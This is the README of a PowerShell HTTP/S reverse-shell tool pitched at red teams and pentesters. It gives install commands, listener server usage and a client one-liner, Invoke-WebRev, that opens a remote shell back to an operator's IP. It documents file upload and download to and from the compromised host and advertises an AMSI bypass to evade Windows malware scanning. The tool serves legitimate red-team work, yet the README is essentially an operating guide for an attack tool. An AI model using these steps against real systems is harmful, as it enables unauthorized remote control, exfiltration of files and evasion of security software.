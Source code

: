 Powershell HTTP/S Reverse Shell
------------

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

![Alt text](images/logo.jpg "Logo")

Installation
------------

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

server-multisession.py - server multisession
------------

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

server.py - server unisession
------------

Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

Invoke-WebRev.ps1 - client
------------

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

Extra functions
------------

```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

Features
------------

    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions [only server-multisession.py]
    - Autocomplete PowerShell functions (optional) [only server.py]

TODO
------------

    - ??
    
